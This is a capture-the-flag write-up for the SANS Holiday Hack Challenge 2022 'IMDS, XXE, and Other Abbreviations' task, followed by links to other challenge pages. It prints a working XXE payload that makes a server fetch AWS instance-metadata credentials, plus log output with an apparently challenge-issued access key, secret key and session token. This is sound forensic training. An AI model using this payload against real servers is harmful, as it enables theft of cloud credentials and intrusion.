

# SANS Holiday Hack Challenge 2022 - KringleCon V: Golden Rings
## Recover the Web Ring
### IMDS, XXE, and Other Abbreviations
Difficulty: :christmas_tree::christmas_tree:
The last step in this attack was to use [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) to get secret keys from the IMDS service. What URL did the attacker force the server to fetch?

#### Hints
##### Instance Metadata Service
*From: Alabaster Snowball*  
AWS uses a specific IP address to access [IMDS](https://www.sans.org/blog/cloud-instance-metadata-services-imds-/), and that IP only appears twice in this PCAP.

#### Solution
nowing the attacker extracted the secret keys from the IMDS service, it is possible to filter on the string access within the `weberror.log` file and add some context to identify the complete request:
```bash
thedead@dellian:~$ grep -m 1 -A 24 -B 13 -i "access" weberror.log
18.191.6.79 - - [05/Oct/2022 16:48:57] "GET / HTTP/1.1" 200 -
ic| xml: (b'<?xml version="1.0" encoding="UTF-8"?>
         <!DOCTYPE foo [ <!ENTITY id SYSTE'
          b'M "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security'
          b'-credentials/ec2-instance"> ]>
         <product><productId>&id;</productId></pro'
          b'duct>
         ')
    parsed_xml: (b'<product><productId>{
                  "Code" : "Success",
                  "LastUpdated" : "2022-10-0'
                 b'5T16:43:21Z",
                  "Type" : "AWS-HMAC",
                  "AccessKeyId" : "ASIAV4AVRXQVJ267'
                 b'LD2Q",
                  "SecretAccessKey" : "OpGR4v70ygZ3RFf4WTzjNL45pQayRwZgBUgd0LJT",'
                 b'
                  "Token" : "IQoJb3JpZ2luX2VjECEaCXVzLWVhc3QtMiJHMEUCIHDsZXiUuHIUrLNH5p'
                 b'AeMiv4aUMVIScjwbo1E9LctQ3rAiEA819eJ24mILbxM3eELK2xrgskHxsRmrza/jIj3y96/sgqsg'
                 b'QI2v//////////ARADGgw0MDM3NzIxMjgyOTgiDMAdG5EGamJ4Z2FwyiqGBPy+CL9AfXIGfLBBDC'
                 b'NkCyl5WOMN7owHr84k+hz4XZYBUp7/+KFZgEiKARroMuD6ofdNRvAj7dQ1/wFxeR6wezUPUkHqtc'
                 b'303oTBY7eTk5EQXClpKsmV1l25QAfD0DOL6FPxpjLPug0AbDFlIhjUeImvk3NBWiUHtXptrJH2ks'
                 b'SaQqU2DBPkkQ4IjMBMbLj0ZdJVWaiUy9sf5ecc2d/qVQU1c6SrYLg0HpyuH9brqm0zuv8/tR17Y/'
                 b'Jo2aNeNGX1wvyb5jP1FcQteypV6IqKIUUCADJ7chYeMypMlwV77phvrZco921O6MV+JlhSIomuzF'
                 b'RLdvzD+RP8DyLZeYZ65vKzr6h0yc+XIHOCT+P01pWQgfZBtvfCJKLKqwTMEbIr/i/xgGmHoCTzx6'
                 b'm38kd4EZvGXZMp3EEasdnqTtKLOR6JFAAlW8SoxOKRL1MshK3SUmYvWnMoLKCotPwyJeAMHEHuZi'
                 b'pNMiZ2gbN//PMbUBnPjNVFBP4SfHaTv7EHzHNpTl5toy8qlPyxE0yLbh5a//DF5wJQE6UKfXWlQh'
                 b'k9/NVM7QAAzEzWPiFTp8ajRIDjPoprVlX3yUaTUHOH8PwMtURCJLl0sOQaJtRGWEMrH52ls5e83p'
                 b'm0ta8257vu8HyTR7zgc/7a0ZsoxetlsB7VYIKyXnETO7SMniTO8R/yE1Wn9qAoWp/jMPvn9pkGOo'
                 b'8CLegclGA49hB/LRr/V1bXEyIIRg5Zn93xXvccMX5QyKGVSRghNOVGn/cCglDWc9zSRFRlZ4tHbl'
                 b'Vi1v8021J04REPR69FDuVvpUzEDJfDF1u4XwYGsp7uuuIngiiegP56H5nSYjmpBfyIURwgNvsz6p'
                 b'tpUvplGCxOvBJcKeyborHJDKG40QRXsLpOgB8NTKhgaFNxO7PjA/YrT7g1rYS7xNrKzVIK4tTwxW'
                 b'B5zN5JAQ3pVRp2JB8Q1ng3qsj3UPfZ3O3JjY4U+rrBKPEHIw9B+Pz6kffOu73aPKgo333w/hd9U4'
                 b'slj74JQXPhO9jCYpAF1bLdS/If20Ed6HvGcAONep0A/FrtZ62EWX4HmeYZ4A==",
                  "Expi'
                 b'ration" : "2022-10-05T23:00:40Z"
                }</productId></product>')
    tree: <Element product at 0x7f9baeffc180>
```
It is possible to observe an XXE attack with the following XML payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY id SYSTEM "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance"> ]>
<product>
	<productId>&id;</productId>
</product>
```
This payload forced the server to fetch the URL `http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance` which is the solution for this challenge.  
  
[https://mobile.twitter.com/csecurity7575](https://mobile.twitter.com/csecurity7575)

---
### [Open Boria Mine Door (Recover the Web Ring)](/04%20-%20Recover%20the%20Web%20Ring/04.05%20-%20Open%20Boria%20Mine%20Door/README.md)
### [Glamtariel's Fountain (Recover the Web Ring)](/04%20-%20Recover%20the%20Web%20Ring/04.06%20-%20Glamtariel's%20Fountain/README.md)
### [The Web Ring (Recover the Web Ring)](/04%20-%20Recover%20the%20Web%20Ring/04.07%20-%20The%20Web%20Ring/README.md)
### [AWS CLI Intro (Recover the Cloud Ring)](/05%20-%20Recover%20the%20Cloud%20Ring/05.01%20-%20AWS%20CLI%20Intro/README.md)
### [Trufflehog Search (Recover the Cloud Ring)](/05%20-%20Recover%20the%20Cloud%20Ring/05.02%20-%20Trufflehog%20Search/README.md)
### [Exploitation via AWS CLI (Recover the Cloud Ring)](/05%20-%20Recover%20the%20Cloud%20Ring/05.03%20-%20Exploitation%20via%20AWS%20CLI/README.md)
### [The Cloud Ring (Recover the Cloud Ring)](/05%20-%20Recover%20the%20Cloud%20Ring/05.04%20-%20The%20Cloud%20Ring/README.md)
### [Buy a Hat (Recover the Burning Ring of Fire)](/06%20-%20Recover%20the%20Burning%20Ring%20of%20Fire/06.01%20-%20Buy%20a%20Hat/README.md)
### [Blockchain Divination (Recover the Burning Ring of Fire)](/06%20-%20Recover%20the%20Burning%20Ring%20of%20Fire/06.02%20-%20Blockchain%20Divination/README.md)
### [Exploit a Smart Contract (Recover the Burning Ring of Fire)](/06%20-%20Recover%20the%20Burning%20Ring%20of%20Fire/06.03%20-%20Exploit%20a%20Smart%20Contract/README.md)
### [Mistakes were made… the key (Recover the Burning Ring of Fire)](/06%20-%20Recover%20the%20Burning%20Ring%20of%20Fire/06.04%20-%20Mistakes%20were%20made…%20the%20key/README.md)
### [The Burning Ring of Fire (Recover the Burning Ring of Fire)](/06%20-%20Recover%20the%20Burning%20Ring%20of%20Fire/06.05%20-%20The%20Burning%20Ring%20of%20Fire/README.md)
### [Narrative](/README.md#narrative)
### [Conclusions](/README.md#conclusions)
---
### [thedead@dellian:~$ whoami](/README.md#thedeaddellian-whoami)
### [KringleCon Orientation](/01%20-%20KringleCon%20Orientation/README.md)
### [Wireshark Practice (Recover the Tolkien Ring)](/02%20-%20Recover%20the%20Tolkien%20Ring/02.01%20-%20Wireshark%20Practice/README.md)
### [Windows Event Logs (Recover the Tolkien Ring)](/02%20-%20Recover%20the%20Tolkien%20Ring/02.02%20-%20Windows%20Event%20Logs/README.md)
### [Suricata Regatta (Recover the Tolkien Ring)](/02%20-%20Recover%20the%20Tolkien%20Ring/02.03%20-%20Suricata%20Regatta/README.md)
### [The Tolkien Ring (Recover the Tolkien Ring)](/02%20-%20Recover%20the%20Tolkien%20Ring/02.04%20-%20The%20Tolkien%20Ring/README.md)
### [Clone with a Difference (Recover the Elfen Ring)](/03%20-%20Recover%20the%20Elfen%20Ring/03.01%20-%20Clone%20with%20a%20Difference/README.md)
### [Prison Escape (Recover the Elfen Ring)](/03%20-%20Recover%20the%20Elfen%20Ring/03.02%20-%20Prison%20Escape/README.md)
### [Jolly CI_CD (Recover the Elfen Ring)](/03%20-%20Recover%20the%20Elfen%20Ring/03.03%20-%20Jolly%20CI_CD/README.md)
### [The Elfen Ring (Recover the Elfen Ring)](/03%20-%20Recover%20the%20Elfen%20Ring/03.04%20-%20The%20Elfen%20Ring/README.md)
### [Naughty IP (Recover the Web Ring)](/04%20-%20Recover%20the%20Web%20Ring/04.01%20-%20Naughty%20IP/README.md)
### [Credential Mining (Recover the Web Ring)](/04%20-%20Recover%20the%20Web%20Ring/04.02%20-%20Credential%20Mining/README.md)
### [404 FTW (Recover the Web Ring)](/04%20-%20Recover%20the%20Web%20Ring/04.03%20-%20404%20FTW/README.md)